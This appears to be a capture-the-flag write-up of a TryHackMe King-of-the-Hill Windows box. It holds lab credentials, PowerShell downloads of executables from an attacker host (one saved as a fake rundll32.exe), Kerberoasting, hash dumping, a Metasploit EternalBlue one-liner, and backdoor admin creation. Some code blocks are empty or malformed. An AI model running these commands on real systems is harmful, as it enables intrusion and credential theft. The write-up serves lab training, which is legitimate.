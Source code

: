 # Offline THM Public Writeup
#### Important Machine related information

#### Map
```lua
nmap service overview
```
```
nmap service overview
```

#### Default Credentials
```powershell
# These are from winpeasing the box

scara:LeagueIsMyLove
toast:IsItHotInHere,OrIsItJustMe
mykull:NightmareNightmareNightmareNightmare
fed:OfflineTV2020

# Beware the additional users
poki
lily 
yvonne
```


#### Network Services to Foothold
```bash
impacket-psexec kingofthe.domain/svc_robotarmy:robots@<ip>
// ssh: svc_robotarmy
```

Webserver on :80 supports webdav. 

https://github.com/notroj/cadaver can be browse and uploaded to it; creds for the `scara` user: `scara:LeagueIsMyLove`

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/kmw.exe','kmw.exe')"
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/client.exe','c:\users\administrator\music\rundll32.exe')"
```

#### Privilege Escalation

```powershell
taskkill /f /pid powershell.exe
taskkill /f /pid cmd.exe
```

Winpeas reveals several more user creds:
```powershell
/Scarras_Super_Secret_Password.txt

impacket-GetUserSPNs kingofthe.domain/scarre:$PASSWORD -dc-ip $IP -request

# crack SPN krb5tgts for SVC_ROBOTARMY

crackmapexec smb  kingofthe.domain -u SVC_ROBOTARMY -dc-ip $IP --sam 
# crack admin hash

impacket-secretsdump -hashes $adminNT -dc-ip $IP kingofthe.domain/adminnistrator@$IP
```
https://medium.com/@mustafakhan_89646/pwning-offline-machine-from-koth-d481a4820b3e

`mykull` has SeBackup. by importing [https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1), the permissions to the administrator home folder (or any folder) can be changed. editing king under king-server doesnt seem to work though - might require no newline
```

```
https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-offline.md

https://gist.github.com/comradecheese/806b3a87d9c76bd4bf0f76bfd1429570
```
sudo msfconsole -q -x 'use exploit/windows/smb/ms17_010_psexec; set RHOST $IP; set LHOST $IP; exploit -j 

shell
net user <username> <password> /add
net localgroup administrators <username> /add

# change password of poki and scarra
net user poki <password>
net user scarra <password>

# find all flags
cd C:\
dir flag*.txt /s


# access machine with xfreerdp
xfreerdp /u:<username> /p:<password> /v:<target-ip> /size:90%

# run powershell as administrator and disable SMBv1
Disable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```

From the [Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3) on disabling SMB on Windows servers:

1. On the Server Manager Dashboard of the server where you want to remove SMBv1, under Configure this local server, select Add roles and features.
2. On the Before you begin page, select Start the Remove Roles and Features Wizard, and then on the following page, select Next.
3. On the Select destination server page under Server Pool, ensure that the server you want to remove the feature from is selected, and then select Next.
4. On the Remove server roles page, select Next.
5. On the Remove features page, clear the check box for SMB 1.0/CIFS File Sharing Support and select Next.
6. On the Confirm removal selections page, confirm that the feature is listed, and then select Remove.


Also https://github.com/Machinh/Koth-THM/blob/main/OFFLINE

#### Flags
```powershell
attrib +r king.txt
takeown /f .\king.txt

c:\Users\Administrator\king-server\king.txt
c:\Users\Administrator\flag.txt
c:\Users\fed\flag.txt
c:\Users\lily\flag.txt
c:\Users\mykull\flag.txt
c:\Users\poki\flag.txt
c:\Users\scarra\flag.txt
c:\Users\toast\flag.txt
c:\Users\yvonne\flag.txt
```

#### References

https://github.com/Machinh/Koth-THM/blob/main/OFFLINE
https://github.com/notroj/cadaver 
https://medium.com/@mustafakhan_89646/pwning-offline-machine-from-koth-d481a4820b3e
[https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)
https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-offline.md
https://gist.github.com/comradecheese/806b3a87d9c76bd4bf0f76bfd1429570
[Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3) 